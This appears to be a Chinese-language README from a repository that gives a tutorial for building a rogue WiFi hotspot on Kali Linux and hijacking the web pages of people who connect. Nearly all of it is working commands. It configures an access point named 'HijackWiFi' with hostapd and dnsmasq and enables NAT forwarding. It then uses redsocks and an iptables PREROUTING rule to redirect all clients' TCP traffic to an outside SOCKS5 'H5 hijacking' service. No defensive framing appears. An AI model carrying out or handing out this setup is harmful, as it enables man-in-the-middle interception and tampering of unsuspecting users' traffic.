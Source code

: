 ## 脚本使用教程

```bash
#开启热点
bash main.sh start
#关闭热点
bash main.sh stop
```

## Kali从WiFi热点到H5劫持教程

### 创建WiFi热点

#### 安装hostapd、dnsmasq、iptables

```shell
apt install -y hostapd dnsmasq iptables
```

#### 初始化hostapd配置文件

```shell
cat > /etc/hostapd/hostapd.conf << EOF
interface=wlan0
driver=nl80211
ssid=HijackWiFi
hw_mode=g
channel=6
auth_algs=1
wmm_enabled=1
wpa=2
wpa_passphrase=88888888
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
EOF
```

#### 初始化hostapd默认读取的配置文件路径

```shell
cat > /etc/default/hostapd << EOF
DAEMON_CONF="/etc/hostapd/hostapd.conf"
EOF
```

#### 初始化dnsmasq配置文件

```shell
cat > /etc/dnsmasq.conf <<EOF
interface=wlan0
dhcp-range=192.168.50.10,192.168.50.100,12h
EOF
```

#### 给无线网卡分配IP

```shell
ip addr add 192.168.50.1/24 dev wlan0
ip link set wlan0 up
```

#### 开启端口转发配置

```shell
cat >> /etc/sysctl.conf << EOF
net.ipv4.ip_forward=1
EOF
```

#### 开启iptables转发配置

```shell
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
iptables -A FORWARD -i eth0 -o wlan0 -m state --state RELATED,ESTABLISHED -j ACCEPT
iptables -A FORWARD -i wlan0 -o eth0 -j ACCEPT
```

#### 启动热点服务

```shell
systemctl restart dnsmasq
#debug调试用这个
hostapd /etc/hostapd/hostapd.conf
#后台启动用这个
systemctl restart hostapd
```

#### 上网验证

使用手机连接wifi打开浏览器查看是否可用正常访问网页，访问成功则说明配置正常

### 转发流量到H5劫持服务

#### 安装redsocks

```shell
apt install -y redsocks
```

#### 创建redsocks配置转发http(s)流量

```shell
cat > redsocks.conf << EOF
base {
    log_info = on;
    log = "stderr";
    daemon = off;
    redirector = iptables;
}

redsocks {
    local_ip = 0.0.0.0;
    local_port = 8084;
    ip = 172.28.186.50;
    port = 8084;
    type = socks5;
}
EOF
```

#### 启动redsocks监听转发

```shell
redsocks -c redsocks.conf
```

#### 将HTTP(S)流量重定向到redsocks

```shell
iptables -t nat -A PREROUTING -i wlan0 -p tcp -j REDIRECT --to-port 8084
```

